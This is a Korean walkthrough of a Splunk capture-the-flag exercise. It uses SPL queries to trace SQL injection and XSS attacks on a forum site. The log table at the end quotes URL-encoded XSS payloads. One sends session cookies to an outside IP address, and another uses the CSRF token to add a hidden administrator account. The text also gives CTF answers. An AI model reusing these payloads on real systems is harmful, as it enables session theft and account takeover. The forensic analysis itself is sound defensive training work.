 첫번째는 eamil, 두번째는 username 조회시도를 하고있습니다. 해당 이벤트 시간을 기준으로 ±5초로 발생한 SQL문의 이벤트를 봅시다.

![](2021-10-24-12-09-35.png)

```
sourcetype=stream:http src_ip=45.77.65.211 uri_path=/member.php
| rex field=dest_content "<dt>Query:</dt>\s+<dd>\s+(?<sqli_query>[^<]+)"
| rex field=dest_content "<dd>1105 - XPATH syntax error:\s+(?<sql_errcode>[^<]+)"
| search sqli_query=*
| table _time sql_errcode sqli_query
| sort _time
```

sql_errcode 필드를 보면 아래차례대로 sql injection시도를 하고 있습니다.
테이블명(mybb_users) -> row수(6) -> uid(1) -> username의 길이(5) -> 유저이름(frank) -> email주소길이(23) -> email(frankesters47@gmail.com) -> salt길이(8) -> salt(gGsxysZL) -> 비밀번호 길이(32) 

답 : gGsxysZL

205	What is user btun's password on brewertalk.com?  
berwertalk.com에서 btun의 비밀번호는 무엇입니까 ?

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>

<details><summary>hint#4</summary></details>

해당 질문은 현 실습 환경에서 제공되지 않는 Splunk ES에서 확인할 수 있는것으로 문제풀이는 하지않겠습니다.

206	What are the characters displayed by the XSS probe? Answer guidance: Submit answer in native language or character set.
XSS 프로브가 표시하는 문자는 무엇입니까? 답변 안내: 현지어 또는 문자 집합으로 답변을 제출합니다.

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>
<details><summary>hint#4</summary></details>

XSS공격은 script를 이용한 공격입니다. 키워드 script가 있는 form_data를 조사해봅시다. 

```
sourcetype=stream:http "<script>"
| dedup form_data
| table _time form_data src_ip
```


|_time|form_data|src_ip|
|---|---|---|
|2017/08/16 15:19:17.163	|module=user-titles&action=edit&utid=2%22%3E%3Cscript%3E%0Awindow.onload%3Dfunction(e)%7B%0A%20%20var%20my_post_key%20%3D%20document.getElementsByName(%22my_post_key%22)%5B0%5D.value%0A%20%20console.log(my_post_key)%3B%0A%20%20var%20postdata%3D%20%22my_post_key%3D%22%2Bmy_post_key%2B%22%26username%3DkIagerfield%26password%3Dbeer_lulz%26confirm_password%3Dbeer_lulz%26email%3DkIagerfield%40froth.ly%26usergroup%3D4%26additionalgroups%5B%5D%3D4%26displaygroup%3D4%22%3B%2F%2FPost%20the%20Data%0A%20%20var%20url%20%3D%20%22http%3A%2F%2Fwww.brewertalk.com%2Fadmin%2Findex.php%3Fmodule%3Duser-users%26action%3Dadd%22%3B%0A%20%20var%20http%3B%0A%20%20http%20%3D%20new%20XMLHttpRequest()%3B%0A%20%20http.open(%22Post%22%2Curl)%3B%0A%0A%20%20http.setRequestHeader(%27Accept%27%2C%27text%2Fhtml%27)%3B%0A%20%20http.setRequestHeader(%27Content-type%27%2C%27application%2Fx-www-form-urlencoded%27)%3B%0A%20%20http.setRequestHeader(%27Accept%27%2C%27application%2Fxhtml%2Bxml%27)%3B%0A%20%20http.setRequestHeader(%27Accept%27%2C%27application%2Fxml%27)%3B%0A%20%20http.send(postdata)%3B%0A%20%20console.log(my_post_key)%3B%0A%7D%0A%3C%2Fscript%3E|71.39.18.125|
|2017/08/15 23:36:34.915|action=activate&uid=-1&code=%22%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2F45.77.65.211%3A9999%2Fmicrosoftuserfeedbackservice%3Fmetric%3D%22%20%2B%20document.cookie%3B%3C%2Fscript%3E|71.39.18.125|
|2017/08/12 09:49:00.520|action=activate&uid=-1&code=%22%3E%3Cscript%3Ealert(%27%EB%8C%80%EB%8F%99%27)%3C%2Fscript%3E|136.0.0.125|
